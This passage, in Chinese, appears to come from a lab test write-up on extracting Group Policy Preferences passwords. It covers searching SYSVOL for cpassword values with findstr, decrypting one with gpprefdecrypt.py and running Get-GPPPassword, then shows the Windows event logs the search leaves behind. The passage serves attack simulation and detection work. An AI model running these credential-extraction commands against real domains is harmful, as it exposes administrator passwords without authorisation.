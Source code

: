 2. **搜索SYSVOL**：
   ```cmd
   findstr /S /I cpassword \\test.com\sysvol\test.com\policies\*.xml
   ```
   - 输出包含`cpassword`的XML文件路径和内容。

3. **提取cpassword**：
   记录`cpassword`值（如`WzC8r0KH+edYsh0heQvAVwcNxtSvX1efu9MU+z5e37E`）。

4. **解密密码**：
   使用gpprefdecrypt.py：
   ```bash
   python3 gpprefdecrypt.py "WzC8r0KH+edYsh0heQvAVwcNxtSvX1efu9MU+z5e37E"
   ```
   - 输出：`Password123`

5. **结果分析**：
   - 成功：获取本地管理员或服务账户的明文密码。
   - 失败可能：
     - 无GPP配置。
     - SYSVOL访问受限。
     - XML文件不包含`cpassword`。

#### 测试2：使用Get-GPPPassword提取凭据
1. **导入脚本**：
   ```powershell
   Import-Module .\Get-GPPPassword.ps1
   ```

2. **执行提取**：
   ```powershell
   Get-GPPPassword
   ```

3. **结果分析**：
   - 成功：自动输出用户名和明文密码。
   - 失败可能：PowerShell执行策略限制或无GPP凭据。

## 测试留痕

### Windows安全日志
- 事件ID4688：
  ```
  已创建新进程。

  创建者主题:
    安全ID: TEST\user1
    帐户名: user1
    帐户域: TEST
    登录ID: 0x7169C

  进程信息:
    新进程ID: 0xd3c
    新进程名称: C:\Windows\System32\findstr.exe
    令牌提升类型: %%1936
    强制性标签: Mandatory Label\Medium Mandatory Level
    创建者进程ID: 0x15d0
    创建者进程名称: C:\Windows\System32\cmd.exe
    进程命令行: findstr /S /I cpassword \\test.com\sysvol\test.com\policies\*.xml
  ```
- 事件ID5145：
  ```
  已检查网络共享对象是否可以授予客户端所需的访问权限。

  主题:
    安全ID: TEST\user1
    帐户名: user1
  ```